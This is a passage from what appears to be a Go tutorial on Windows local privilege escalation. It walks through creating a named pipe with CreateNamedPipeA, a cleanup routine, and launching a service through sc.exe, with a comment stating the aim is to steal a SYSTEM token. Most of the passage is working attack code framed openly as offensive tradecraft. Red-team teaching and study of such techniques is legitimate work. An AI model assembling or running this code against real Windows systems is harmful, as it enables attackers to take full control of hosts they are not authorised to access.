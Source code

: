 ```go
// Convert pipe name to ptr
chars := append([]byte(named_pipe), 0)
name := &chars[0]

// Call CreateNamedPipeA
r1, _, err := CreateNamedPipeA.Call(
  uintptr(unsafe.Pointer(name)),
  uintptr(uint32(PIPE_ACCESS_DUPLEX)),
  uintptr(uint32(PIPE_TYPE_MESSAGE|PIPE_WAIT)),
  uintptr(uint32(2)),
  uintptr(uint32(0)),
  uintptr(uint32(0)),
  uintptr(uint32(0)),
  uintptr(unsafe.Pointer(nil)),
)

pipe_handle := r1 // return code

if err != syscall.Errno(0) { // Handle error
  log.Fatalf("error has ocurred while creating named pipe: %s\n", err)
}
defer deleteNamedPipe(pipe_handle, DisconnectNamedPipe) // pass handle and DisconnectNamePipe proc
```

As you may notice we also used another function `deleteNamedPipe()` to revert our operations so let's define it.

```go
func deleteNamedPipe(pipe_handle uintptr, DisconnectNamedPipe *windows.LazyProc) {
  _, _, err := DisconnectNamedPipe.Call(uintptr(pipe_handle))
  if err != syscall.Errno(0) {
    fmt.Printf("error disconnecting named pipe: %s\n", err)
  }

  err = syscall.CloseHandle(syscall.Handle(pipe_handle))
  if err != nil {
    fmt.Printf("error closing close handle: %s\n", err)
  }

  return
}
```

Perfect, now the service and named pipe are created but we also have to start the service which will run as SYSTEM.

```go
// Start service which allows us to steal SYSTEM token
go func() {
  c2 := exec.Command("cmd.exe")
  c2.SysProcAttr = &syscall.SysProcAttr{}
  c2.SysProcAttr.CmdLine = "/R sc.exe start " + service_name
  _, err = c2.Output()
  if err != nil { // Handle error
    if err != syscall.Errno(0) { // Handle error
      log.Fatalf("error starting service: %s\n", err)
    }
    }
}()
```
